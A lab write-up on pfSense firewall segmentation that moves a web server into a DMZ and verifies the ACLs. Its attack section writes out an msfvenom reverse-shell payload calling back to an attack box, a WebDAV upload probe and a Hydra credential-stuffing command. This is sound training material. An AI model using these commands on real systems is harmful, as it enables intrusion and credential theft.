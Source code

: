 # Configuring Network Segmentation and Security
<h3>Objectives</h3>

- Apply security solutions for infrastructure management
- Implement configuration changes to existing controls to improve security
#
<h3>pfSense Firewall</h3>

For this lab I'll be using the pfSense firewall. pfSense is an open-source unified threat management (UTM) appliance created and maintained by Netgate. pfSence works as both a router and firewall.

To  connect to the pfSense firewall, I just type in its IP into the browser: http://10.1.0.254
- 10.1.0.254 is this network's default gateway. Usually, the default gateway is a router, in this case, pfSense works as both a router and a firewall, and that is why it's this network's default gateway.
![image](https://github.com/user-attachments/assets/ae1d90aa-045d-49e2-b85b-98e6ca659194)
![image](https://github.com/user-attachments/assets/fe92ec5f-12df-4dd2-bf51-ef06452c75ec)
- This firewall/router is configured with one external and one internal interface. The firewall screens the local network segment from external networks, allowing only traffic matching the access control list (ACL) through.
#
<h3>Reviewing Firewall ACLs</h3>

I can access the ACL or rules by clicking **Firewall > Rules**
- Here I can see that there are multiple tabs, so there can be separate rules for the the WAN and LAN

![image](https://github.com/user-attachments/assets/cdcaae03-722e-41f8-bdbc-5f0c239e4243)
![image](https://github.com/user-attachments/assets/95711b78-a316-407f-827f-e24c73f9ca42)
- Several types of traffic are permitted into the LAN: ICMP (ping), DNS, HTTP/HTTPS, and SMTP.
- All except the ICMP rule, are forwarding rules meaning that traffic for those ports is directed to a host on the LAN.

Now on the **LAN tab**
![image](https://github.com/user-attachments/assets/4bc00873-6876-4173-a484-fb810bc2e080)
- Based on these rules, there is no egress filtering. Any type of traffic from a host on the LAN is permitted to any endpoint, **unless** a deny rule is placed higher in the ACL.
  - The order of the rules can be changed around since  the firewall prioritizes the rules from top to bottom, it will change how the firewall behaves with certain traffic.
- The **Anti-Lockout Rule** prevents the firewall from locking out an administrator from the web interface.
It's enabled by default and allows traffic from any source within the network to any firewall administration protocol listening on the LAN IP address.

If I now click on **Firewall > NAT**, it shows the hosts that are designated to receive traffic for DNS, HTTP/HTTPS, and SMTP.

![image](https://github.com/user-attachments/assets/be50cdea-d36b-40f9-9f6f-24db262ef564)
![image](https://github.com/user-attachments/assets/d9d7c69c-035e-4fb4-858b-951b4605f90b)
- Since the hosts on this network are not seperated into different segments, if an attacker is able to gain access to the server than they can pivot onto other hosts.

#
<h3>Testing Host Security</h3>

In order to demonstrate how a server may make other hosts on the same segment vulnerable, I will run an attack against the web server.

On a Kali VM, which I'll be using as the attack box, I'll start msfconsole and run the following commands: 

1: msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.2.192 lport=8080 -f raw > /root/get.php
- Creates a reverse shell via PHP code
![image](https://github.com/user-attachments/assets/844f1c13-d830-4f2e-aa5c-0df1d04a3e03)

2: davtest -url http://www.515support.com/webdav
- I'll leverage the server’s webdav environment to upload malicious code
![image](https://github.com/user-attachments/assets/4e550bbe-86db-4537-b21d-61571f1a6d22)

This environment is password-protected so it failed to connect, however, I'll use the password cracker THC Hydra or Hydra and a wordlist containing possible usernames and password variations, and perform a credential-stuffing attack. 

Command: hydra -L /root/Downloads/users-515support.txt -P /root/Downloads/pwd-515support.txt www.515support.com http-get /webdav

![image](https://github.com/user-attachments/assets/9c1676b0-ecc5-4e98-906d-65d3f4719636)
- Hydra was able to crack the user/password combo of dev:Pa$$w0rd

Now I can try connecting again using these credentials
![image](https://github.com/user-attachments/assets/bc809845-89f7-4d4f-aa30-1463449c51fe)

Now that I'm connected I can start the listener

![image](https://github.com/user-attachments/assets/650491ad-54a3-4c62-82df-f7b303848371)

On a second terminal window, I'll run the following command to trigger the script and start the reverse shell
![image](https://github.com/user-attachments/assets/cb510199-1bdb-4420-a7b0-c091133b3d16)

Back on the terminal running msfconsole, the meterpreter shell was successful, and I now  have access to the server's command line.
![image](https://github.com/user-attachments/assets/2f47d67f-5dea-4131-b89a-b1c4909f184f)

Leaving the session in the background to try creating a hash dump, results in failure because I dont have root access.
![image](https://github.com/user-attachments/assets/bf494440-2074-445a-a097-4a89287538b6)

Trying a different method also yields no access, however, there is the potential for intrusion against other hosts on the same network as the server.
![image](https://github.com/user-attachments/assets/89437583-ba17-4b1d-a3e8-df2f3cf1f37f)

![image](https://github.com/user-attachments/assets/2f825b5b-1164-43e3-8993-94854a90d798)
![image](https://github.com/user-attachments/assets/51ce190a-304f-4179-82d2-ae5a05b05dbd)

The reason that it's possible to gain access to another host on the network is because of the firewall rules. There are no rules against certain oubount traffic or connection between the server and other hosts on the same network. 
If the firewall rules were filtering connections between this server and other hosts, and blocking unauthorized outbound connections, then this would not be possible.
#
<h3>Configuring Segmentation</h3>

Now I will configure the firewall so that the web server is isolated in a demilitarized zone (DMZ) segment, separate from other hosts.

In Hyper-V Manager, Virtual Switch Manager > Private > Create Virtual Switch and name the switch 'vDMZ'
![image](https://github.com/user-attachments/assets/a1add197-8bb8-4f8e-ad3c-23bcfca3e541)

Now in the settings menu for UTM1, I'll set the vDMZ switch for the hn2 adapter

![image](https://github.com/user-attachments/assets/42798972-644d-4d35-88bd-a82e55b927a2)
![image](https://github.com/user-attachments/assets/58165c35-a154-4592-b473-bd97cb7a873b)

And I'll do the same for LX1, on the eth0 adapter

![image](https://github.com/user-attachments/assets/9c084d65-9284-4079-93d0-a980177c841c)

Back on pfSense, clicking on **Interfaces > Assignments**
![image](https://github.com/user-attachments/assets/edda3a98-8f04-4080-8122-a25dbbb2bcfd)
And I added OPT1, which is UTM1's interface connected to the virtual switch (vDMZ)
![image](https://github.com/user-attachments/assets/b95b2700-816d-4e64-b19c-9de6bdeab33d)

Clicking on **Interfaces > OPT1**, I enabled the interface and set the IPv4 address as 10.1.254.254 /24 and to be static, then saved the configuration at the bottom of the menu

![image](https://github.com/user-attachments/assets/b0d2478e-d4d2-47f2-8fa0-b935ff3d8794)
![image](https://github.com/user-attachments/assets/83159cc6-a7b6-4dae-bc46-dd2506a4015c)

Clicking on **Firewall > NAT**, I'm going to edit the HTTP and HTTPS forwarding rules to redirect traffic to the server @ 10.1.254.10 

![image](https://github.com/user-attachments/assets/f0c07ae9-a6b1-48f0-9eb4-e56e9e42e891)
![image](https://github.com/user-attachments/assets/c88724ec-d65e-4e3b-a871-59872f688ff6)
![image](https://github.com/user-attachments/assets/7a3724ff-dd69-4889-9f1c-c5c8d8409e74)
![image](https://github.com/user-attachments/assets/33f1d600-1a2b-4405-b482-1c9701144195)

The I went to **Status > System  Logs Settings** and enabled 'log firewall default blocks'
![image](https://github.com/user-attachments/assets/2e9eebf6-09e8-40fe-a4d9-cc6ec83b4ccf)

The last thing I need to do is add the server to the DMZ subnet, by reconfiguring it's IP settings
![image](https://github.com/user-attachments/assets/3e2ca707-4868-490f-8e56-4ff9f44dfedc)

Now that I changed the IP to the server the connection to the attack box has died, so there is no current reverse shell
![image](https://github.com/user-attachments/assets/5ebf2d36-33d4-4e0a-bbb6-203b72362e80)
#
<h3>Testing Segmentation</h3>

If I try to establish another reverse shell (same way as before, starting the listener, and using the curl command to create the reverse shell), it will not work because the ACL rules are configured to apply only to incoming new connections on each interface, so the default block on OPT1 stops the web server from initiating new connections. The ACL rules only allow connections started by external hosts rather than a connection started by the server to an external host (reverse shell).

Checking the firewall logs (**Status > System Logs > Firewall**), we see just that. Any traffic from the server (10.1.254.10) to the attack box (192.168.2.192), is blocked. But traffic from the attack box to the server is not.
![image](https://github.com/user-attachments/assets/45e04c13-f741-4372-a9c5-9cf2299d1dce)
![image](https://github.com/user-attachments/assets/0bc78382-f4c1-4bb0-852f-7cf51cdec408)

This is actually a hidden, default deny rule, that blocks any inbound traffic to the WAN interface from an external network.
![image](https://github.com/user-attachments/assets/96927429-a1ee-40fd-b75b-77d53edc1318)

Now the server has been successfully isolated from the other hosts on the network.
#
<h3>Challenge</h3>

**Configure an ACL that blocks hosts on the vLOCAL switch/LAN net from accessing anything other than SSH and HTTP/HTTPS on the vDMZ switch/OPT1 net.**

These are the four rules I made to make this possible. Each one either allows/denies traffic specifically from the LAN net, to the OPT1 net. The deny rule denies all traffic including SSH, HTTP/HTTPS but I put it at the bottom of the list so that it will no trigger before the other allow rules, that way SSH, and HTTP/HTTPS traffic can still pass through.
![image](https://github.com/user-attachments/assets/d2e62656-5499-4b03-8eba-89353252ee56)

To test whether on not the ACL rules work I first tried accessing http://www.515web.net and http://10.1.254.10 from a VM that was on the LAN net, and both were successfull.
![image](https://github.com/user-attachments/assets/58fe5c65-ab81-4ef9-9701-b570d8115f83)
![image](https://github.com/user-attachments/assets/d93681d5-aef6-437d-af7c-c267d8aa5b5b)

Lastly, I switched the Linux VM (attack box), to the LAN net and used nmap to test ports 22, 53, 80, and 443, and since it worked correctly DNS port 53 was shown as filtered and the rest were open.
- I also tested agaisnt the top 100 ports and as expected 97 came back as filtered and 22, 80, and 443 were open.
![image](https://github.com/user-attachments/assets/cc91a8a2-df07-423c-a21f-34682a354867)
![image](https://github.com/user-attachments/assets/ad3f6ace-9550-4fb9-b0ad-9f7ba8a4d5d0)

I also used netcat to show that traffic over common ports like 21, 23, 25,and 53 are not allowed, but 22, 80, and 443 is allowed
![image](https://github.com/user-attachments/assets/aa38d290-ac04-4cd7-a1df-da7b11d5d6ef)
![image](https://github.com/user-attachments/assets/045adc42-ea13-4229-9729-ccf6b91bb027)

#
**Summary: In this lab I was able to get some hands on experience with the pfSense UTM, and test ACL rules to permit or deny traffic based on security requirements. I also used MSFconsole to simulate an attack, which was possible due to poorly configured security controls.**



